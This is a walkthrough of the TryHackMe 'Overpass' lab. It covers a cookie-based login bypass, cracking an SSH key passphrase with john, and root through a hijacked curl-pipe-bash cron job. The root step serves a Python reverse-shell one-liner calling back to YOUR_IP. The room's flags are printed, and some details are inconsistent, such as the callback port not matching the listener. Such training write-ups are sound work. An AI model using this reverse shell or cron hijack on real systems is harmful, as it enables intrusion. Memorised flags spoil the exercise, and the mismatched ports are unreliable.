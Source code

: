 13.09.2020 | Felix Strobel ([relevant](https://tryhackme.com/p/relevant))

# Overpass

  - [Task 1](#task-1)

## Task 1

<i>To get some information on the system we can perform a simple [nmap](https://nmap.org) scan. Using the `-sC` flag means using the default scripts. The `-sV` flag determines the versions of the services.<br>
The full command looks like this: `nmap -sC -sV MACHINE_IP`<br>
After scanning we can see an ssh and an http service running.</i>

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  <b>ssh</b>     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  <b>http</b>    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

<i>The website shows a link to a download page and gives us the possibility to download the source code. Now we can perform a simple [gobuster](https://github.com/OJ/gobuster) scan for good practice and to be sure we did not miss any important information. We will use the `-u` flag to specify our target and the `-w` flag to specify a wordlist. I am using the [`common.txt`](https://gitlab.com/kalilinux/packages/dirb/-/blob/kali/master/wordlists/common.txt).<br>
The full command looks like this: `gobuster dir -u "http://MACHINE_IP" -w ./common.txt`<br>
When the scan has finished we see a `/admin` directory we haven't recognized before.</i>

<pre>
/aboutus (Status: 301)
<b>/admin</b> (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
</pre>

<i>This `/admin` directory contains a login form. Looking at the source code we detect a `login.js` file. When searching the `login.js` file for a vulnerability we can recognize that the `SessionToken` cookie has to be set to log-in. We can start our webbrowser, open the developer console and switch to the Application tab. Under cookies we can create our own and call it `SessionToken`. The value does not matter. Then we can reload the page and see that we are 'logged in'. The webpage shows now an ssh key.</i>

<pre>
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
</pre>

<i>Lets safe this key on our machine as `id_rsa`. But now we need a password for the key. We will use [`ssh2john.py`](https://www.openwall.com/john) to create a hash.<br>
The full command looks like this: `python ./ssh2john.py ./id_rsa > id_rsa.hash`<br>
Great, now we can use [`john`](https://www.openwall.com/john) to crack the hash. To specify we use the `--wordlist` flag. Our wordlist will be the [`rockyou.txt`](https://gitlab.com/kalilinux/packages/wordlists/-/blob/kali/master/rockyou.txt.gz).<br>
The full command looks likethis: `john --wordlist=./rockyou.txt id_rsa.hash`<br>
John returns us the following and presents the cracked password.</i>

<pre>
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
<b>james13</b>          (./id_rsa)
1g 0:00:00:02 DONE (2020-09-13 11:07) 0.4347g/s 6235Kp/s 6235Kc/s 6235KC/s  0125457423 ..*7¡Vamos!
Session completed
</pre>

<i>Now we have a ssh key and the password. Before logging in with: `ssh -i ./id_rsa james@MACHINE_IP` we have to set the permissions on the `id_rsa` file using `chmod 600 id_rsa`. And here we go we are logged in as james. And in the home directory we can find the `ùser.txt` file.</i>

1. Hack the machine and get the flag in `user.txt`.<br>
   `thm{65c1aaf000506e56996822c6281e6bf7}`

<i>In the home directory we can also find a `.overpass` file and we can `cat` it out.</i>

<pre>[{"name":"System","pass":"saydrawnlyingpicture"}]</pre>

<i>Did he really stored his root password here? Trying switcing the user to root does not work. Lokking at the `/etc/crontab` file shows us a a cronjob runnig as root.</i>

<pre>
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * <b>root curl overpass.thm/downloads/src/buildscript.sh | bash</b>
</pre>

<i>Ok he tries to fetch a file from overpass.thm. Maybe we can change the overpass.thm to point to our ip adress. To do so we have to edit the `/etc/hosts` file using nano.<br>
The full command looks like this: `nano /etc/hosts`<br>
Then you have to edit the content to look like the following. The YOUR_IP should be your internal tryhackme adress.</i>

<pre>
127.0.0.1 localhost
127.0.1.1 overpass-prod
<b>YOUR_IP:8000 overpass.thm</b>
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
</pre>

<i>That's done so let's move on and create a file called `buildscript.sh` in the folder structure `downloads/src/`. Create these folders depending to your server. Into the `buildscript.sh` we paste a reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).</i>

<pre>
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
</pre>

<i>Now we have to set up a smal server and a netcat listener.<br>
The server command: `sudo python3 -m http.server 80`<br>
The netcat listener: `nc -lnvp 8080`<br>
After some waiting our netcat listener catches the reverse shell. And we became root! We can `cat` the `root.txt`.</i>

2. Escalate your privileges and get the flag in `root.txt`.<br>
   `thm{7f336f8c359dbac18d54fdd64ea753bb}`
